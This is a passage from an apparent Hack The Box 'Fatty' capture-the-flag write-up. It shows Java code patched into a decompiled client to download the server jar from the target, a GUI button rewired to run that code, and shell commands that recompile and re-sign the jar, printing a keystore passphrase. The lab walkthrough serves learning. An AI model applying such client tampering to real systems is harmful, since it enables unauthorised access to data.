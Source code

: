 ```java
    {
      String output_file = "fatty-server.jar";
      FileOutputStream fos = new FileOutputStream(output_file);
      fos.write(this.response.getContent());
      return "Downloaded server!";
    }
    catch (Exception e)
    {
      e.printStackTrace();
      return "Error while trying to download the server!";
    }
  }
```

The code above will we added to the `Invoker.class` class. Now we have to call this function in the GUI class. We can simply change the Notes button to instead execute our code.

```java
dlserv.addActionListener(new ActionListener() {
          public void actionPerformed(ActionEvent e) {
            try {
              String response = ClientGuiTest.this.invoker.downloadServer();
              textPane.setText(response);
            } catch (Exception ex) {
              JOptionPane.showMessageDialog(controlPanel, ex.getMessage(), "Error", 0);
            } 
          }
        });
```

The code above will be added to the `ClientGuiTest.class` class.

Same as before, we now have to compile the classes again and update the jar archive.

```bash
root@darkness:~# javac8 htb/fatty/client/methods/Invoker.java
root@darkness:~# javac8 htb/fatty/client/gui/ClientGuiTest.java
root@darkness:~# jar uf fatty-client.jar htb/fatty/client/gui/*
root@darkness:~# jar uf fatty-client.jar htb/fatty/client/methods/*
root@darkness:~# jarsigner -storetype pkcs12 -keystore fatty.p12 fatty-client.jar 1
Enter Passphrase for keystore: secureclarabibi123
jar signed.

Warning: 
The signer's certificate is self-signed.
root@darkness:~# java8 -jar fatty-client.jar
```
